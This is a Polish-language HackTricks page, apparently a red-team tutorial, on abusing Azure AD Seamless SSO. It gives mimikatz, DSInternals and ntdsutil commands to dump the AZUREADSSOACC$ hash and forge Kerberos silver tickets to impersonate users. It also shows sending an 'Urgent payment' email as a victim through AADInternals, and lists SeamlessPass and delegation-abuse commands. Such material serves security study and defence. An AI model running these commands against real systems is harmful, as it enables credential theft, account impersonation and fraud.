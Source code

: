 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

[Z dokumentacji:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatycznie **loguje użytkowników, gdy są na swoich firmowych urządzeniach** podłączonych do sieci firmowej. Po włączeniu, **użytkownicy nie muszą wpisywać swoich haseł, aby zalogować się do Azure AD**, a zazwyczaj nawet wpisywać swoich nazw użytkowników. Ta funkcja zapewnia użytkownikom łatwy dostęp do aplikacji w chmurze bez potrzeby posiadania dodatkowych komponentów lokalnych.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Zasadniczo Azure AD Seamless SSO **loguje użytkowników**, gdy są **na komputerze dołączonym do lokalnej domeny**.

Jest wspierane zarówno przez [**PHS (Password Hash Sync)**](phs-password-hash-sync.md), jak i [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

SSO na komputerze stacjonarnym używa **Kerberos** do uwierzytelniania. Po skonfigurowaniu, Azure AD Connect tworzy **konto komputera o nazwie AZUREADSSOACC`$`** w lokalnym AD. Hasło konta `AZUREADSSOACC$` jest **wysyłane w postaci niezaszyfrowanej do Azure AD** podczas konfiguracji.

**Bilety Kerberos** są **szyfrowane** przy użyciu **NTHash (MD4)** hasła, a Azure AD używa wysłanego hasła do odszyfrowania biletów.

**Azure AD** udostępnia **punkt końcowy** (https://autologon.microsoftazuread-sso.com), który akceptuje bilety Kerberos. Przeglądarka maszyny dołączonej do domeny przesyła bilety do tego punktu końcowego w celu SSO.

### On-prem -> chmura

**Hasło** użytkownika **`AZUREADSSOACC$` nigdy się nie zmienia**. Dlatego administrator domeny mógłby skompromitować **hash tego konta**, a następnie użyć go do **tworzenia srebrnych biletów** do połączenia się z Azure z **dowolnym użytkownikiem lokalnym zsynchronizowanym**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Z hashem możesz teraz **generować srebrne bilety**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Aby wykorzystać srebrny bilet, należy wykonać następujące kroki:

1. **Uruchom przeglądarkę:** Należy uruchomić Mozilla Firefox.
2. **Skonfiguruj przeglądarkę:**
* Przejdź do **`about:config`**.
* Ustaw preferencję dla [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) na określone [wartości](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Uzyskaj dostęp do aplikacji internetowej:**
* Odwiedź aplikację internetową, która jest zintegrowana z domeną AAD organizacji. Typowym przykładem jest [Office 365](https://portal.office.com/).
4. **Proces uwierzytelniania:**
* Na ekranie logowania należy wpisać nazwę użytkownika, pozostawiając pole hasła puste.
* Aby kontynuować, naciśnij TAB lub ENTER.

{% hint style="success" %}
To nie omija MFA, jeśli jest włączone
{% endhint %}

#### Opcja 2 bez dcsync - SeamlessPass

Możliwe jest również przeprowadzenie tego ataku **bez ataku dcsync**, aby być bardziej dyskretnym, jak [wyjaśniono w tym wpisie na blogu](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). W tym celu potrzebujesz tylko jednego z poniższych:

* **TGT skompromitowanego użytkownika:** Nawet jeśli go nie masz, ale użytkownik został skompromitowany, możesz go uzyskać, używając sztuczki z delegowaniem fałszywego TGT, zaimplementowanej w wielu narzędziach, takich jak [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) i [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Złoty bilet**: Jeśli masz klucz KRBTGT, możesz stworzyć TGT, którego potrzebujesz dla zaatakowanego użytkownika.
* **Hash NTLM lub klucz AES skompromitowanego użytkownika:** SeamlessPass skomunikuje się z kontrolerem domeny z tymi informacjami, aby wygenerować TGT.
* **Hash NTLM lub klucz AES konta AZUREADSSOACC$:** Z tymi informacjami i identyfikatorem bezpieczeństwa (SID) użytkownika, którego atakujesz, możliwe jest stworzenie biletu serwisowego i uwierzytelnienie w chmurze (jak wykonano w poprzedniej metodzie).

Na koniec, z TGT możliwe jest użycie narzędzia [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) z:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Dalsze informacje na temat ustawienia Firefoksa do pracy z seamless SSO można [**znaleźć w tym wpisie na blogu**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Tworzenie biletów Kerberos dla użytkowników tylko w chmurze~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Jeśli administratorzy Active Directory mają dostęp do Azure AD Connect, mogą **ustawić SID dla dowolnego użytkownika chmurowego**. W ten sposób bilety Kerberos **mogą być tworzone również dla użytkowników tylko w chmurze**. Jedynym wymaganiem jest, aby SID był odpowiednim [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Zmiana SID użytkowników administracyjnych tylko w chmurze jest teraz **zablokowana przez Microsoft**.\
Aby uzyskać więcej informacji, sprawdź [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
{% endhint %}

### On-prem -> Chmura za pomocą ograniczonej delegacji opartej na zasobach <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Każdy, kto może zarządzać kontami komputerów (`AZUREADSSOACC$`) w kontenerze lub OU, w którym znajduje się to konto, może **skonfigurować ograniczoną delegację opartą na zasobach dla konta i uzyskać do niego dostęp**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: Jestem w twojej chmurze, czytam e-maile wszystkich - hakowanie Azure AD przez Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
